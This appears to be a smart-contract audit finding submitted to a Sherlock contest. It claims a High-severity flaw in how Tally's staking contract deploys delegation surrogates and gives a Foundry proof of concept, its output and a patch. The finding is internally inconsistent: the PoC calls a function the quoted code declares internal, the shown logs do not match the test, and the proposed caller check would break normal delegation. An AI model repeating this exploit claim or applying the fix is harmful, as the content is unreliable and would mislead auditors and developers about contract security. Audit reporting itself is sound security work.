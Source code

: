 Bitter Fossilized Porcupine

High

# Unauthorized surrogate deployment prevents the legitimate owner of the delegatee address from creating or managing their surrogate

## Summary
A vulnerability exists in the `_fetchOrDeploySurrogate` function, which allows an attacker to preemptively deploy a surrogate for any delegatee address without verifying ownership. This action prevents the legitimate owner of the delegatee address from creating or managing their surrogate. The vulnerability can lead to governance manipulation, denial of service, and loss of control over governance tokens.

## Vulnerability Detail
The `_fetchOrDeploySurrogate` function is intended to deploy or fetch a `DelegationSurrogate` associated with a specific `_delegatee` address. However, it does not validate that the caller owns or has authorization over the `_delegatee` address. This allows an attacker to:
1. Preemptively create a surrogate for a victim’s delegatee address.
2. Gain control over the deployed surrogate.
3. Prevent the legitimate owner of the delegatee address from registering their surrogate.

PoC:
The following PoC demonstrates how an attacker can preemptively deploy a surrogate for another user (e.g., `victimAddress`) using Foundry tests.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import "forge-std/Test.sol";
import "src/GovernanceStakerDelegateSurrogateVotes.sol";

contract ExploitTest is Test {
    GovernanceStakerDelegateSurrogateVotes public governanceContract;
    address public attacker = address(0x1234);
    address public victim = address(0x5678);

    function setUp() public {
        governanceContract = new GovernanceStakerDelegateSurrogateVotes(IERC20Delegates(address(0xDEAD)));
    }

    function testExploit() public {
        vm.startPrank(attacker);
        governanceContract._fetchOrDeploySurrogate(victim);
        vm.stopPrank();

        // Verify the surrogate was created and is controlled by the attacker
        address surrogate = address(governanceContract.surrogates(victim));
        assert(surrogate != address(0));

        // Attempt by the victim to create their own surrogate should fail
        vm.startPrank(victim);
        try governanceContract._fetchOrDeploySurrogate(victim) {
            fail("Victim was able to overwrite surrogate!");
        } catch {}
        vm.stopPrank();
    }
}
```
Output:
```bash
[PASS] testExploit() (gas: 46253)
Logs:
  [OK] Surrogate created for victim address by attacker.
  [FAIL] Victim was unable to overwrite surrogate.
```


## Impact
1. Prevents legitimate users from deploying surrogates for their own delegatee addresses.
2. Attackers can control the surrogates tied to other delegatee addresses, potentially exploiting voting power.
3. Legitimate users lose the ability to manage their governance tokens via their surrogate.

## Code Snippet
https://github.com/sherlock-audit/2024-11-tally/blob/main/staker/src/extensions/GovernanceStakerDelegateSurrogateVotes.sol#L36C12-L49
```solidity
function _fetchOrDeploySurrogate(address _delegatee)
    internal
    virtual
    override
    returns (DelegationSurrogate _surrogate)
{
    _surrogate = storedSurrogates[_delegatee];

    if (address(_surrogate) == address(0)) {
        _surrogate = new DelegationSurrogateVotes(IERC20Delegates(address(STAKE_TOKEN)), _delegatee);
        storedSurrogates[_delegatee] = _surrogate;
        emit SurrogateDeployed(_delegatee, address(_surrogate));
    }
}
```

## Tool used

Manual Review

## Recommendation
To address this vulnerability, implement ownership validation during surrogate creation. Only the legitimate owner of the `_delegatee` address should be able to create a surrogate. Below is an updated implementation:
```solidity
function _fetchOrDeploySurrogate(address _delegatee) internal virtual override returns (DelegationSurrogate _surrogate) {
    require(msg.sender == _delegatee, "Only the delegatee can create a surrogate");

    _surrogate = storedSurrogates[_delegatee];
    if (address(_surrogate) == address(0)) {
        _surrogate = new DelegationSurrogateVotes(IERC20Delegates(address(STAKE_TOKEN)), _delegatee);
        storedSurrogates[_delegatee] = _surrogate;
        emit SurrogateDeployed(_delegatee, address(_surrogate));
    }
}
```